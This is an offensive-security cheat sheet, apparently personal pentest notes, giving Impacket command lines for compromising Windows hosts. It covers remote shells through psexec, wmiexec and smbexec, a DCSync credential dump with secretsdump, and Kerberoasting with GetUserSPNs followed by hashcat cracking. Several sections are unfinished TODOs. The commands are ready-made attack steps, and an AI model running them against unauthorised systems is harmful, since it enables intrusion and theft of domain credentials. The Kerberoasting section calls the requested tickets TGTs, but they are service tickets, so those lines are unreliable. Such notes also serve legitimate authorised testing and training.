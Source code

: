Impacket is a suite of tools that is massively useful when compromising Windows hosts.

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via PsExec (if user has local administrator rights). Requires transferring a binary to the target machine.
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
```shell
impacket-smbexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via SMB named pipes without transferring a binary.
```
# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 
```

# Impacket-SMBServer
TODO: Finish

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-raiseChild
TODO: Write this

# Impacket-ticketer
TODO: Write this

# Impacket-lookupsid
TODO: Write this

Install with apt on Kali and use syntax above
